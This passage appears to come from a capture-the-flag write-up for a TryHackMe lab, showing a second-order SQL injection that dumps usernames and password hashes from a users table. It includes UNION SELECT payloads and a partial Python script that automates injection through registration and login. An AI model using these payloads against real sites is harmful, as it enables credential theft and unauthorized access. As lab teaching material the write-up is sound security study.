 ![users table fields](/images/THM-RabbitHole/S_SQLi_enum2.png)

This table has four fields: `id`, `username`, `password`, and `group`. We will check `username` first to see if there are other users.

```
python3 auto_sqli.py IP_ADDRESS '" UNION SELECT 1, username FROM web.users; --'
```

![username field content](/images/THM-RabbitHole/username_list.png)

Besides `admin`, we find `foo` and `bar`. 

Now let's list the content of `password`.

```
python3 auto_sqli.py IP_ADDRESS '" UNION SELECT 1, password FROM web.users; --'
```

![incomplete hashes](/images/THM-RabbitHole/S_SQLi_enum3.png)

We are able to dump the hashes but there is a 16-character limit, resulting in incomplete hashes. In order to overcome this hurdle we will modify our script making use of `SUBSTRING` to split the query into two parts. 

```python
import sys
import requests
from bs4 import BeautifulSoup

def create_user(ip, payload):
    url = f"http://{ip}/register.php"
    data = {
        'username': payload,
        'password': 'password',
        'submit': 'Submit Query'
    }
    response = requests.post(url, data=data)
    return response.status_code == 200

def login_user(ip, payload):
    url = f"http://{ip}/login.php"
    data = {
        'username': payload,
        'password': 'password',
        'login': 'Submit Query'
    }
    response = requests.post(url, data=data)
    return response.text

def extract_results(html):
    soup = BeautifulSoup(html, 'html.parser')
    results = []
    
    for td in soup.find_all('td'):
        content = td.get_text().strip()
        # Filter out timestamp entries (they start with year)
        if not content.startswith('202'):  # Assumes timestamps start with 202x
            results.append(content)
    
    return results

def modify_payload(payload, substring_range):
    select_pos = payload.upper().find('SELECT')
    from_pos = payload.upper().find('FROM')
    
    if select_pos == -1 or from_pos == -1:
```